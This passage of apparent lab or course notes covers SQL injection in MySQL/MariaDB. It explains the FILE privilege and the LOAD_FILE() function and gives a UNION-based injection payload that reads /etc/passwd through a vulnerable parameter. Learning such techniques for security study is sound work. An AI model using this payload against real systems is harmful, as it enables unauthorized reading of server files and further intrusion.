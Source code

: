 ![](Images/Pasted%20image%2020240129183910.png)

we can see that the `FILE` privilege is given to our user meaning that we can read files and potentially write them 

### LOAD_FILE

`LOAD_FILE()` is a function that can be used in MySQL or MariaDB that reads data from files   
takes in one argument that is the file name

`SELECT LOAD_FILE('/etc/passwd');`

we will only be able to read the file if the OS user running MySQL has privileges to read it 

our injection will become: 

`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- `
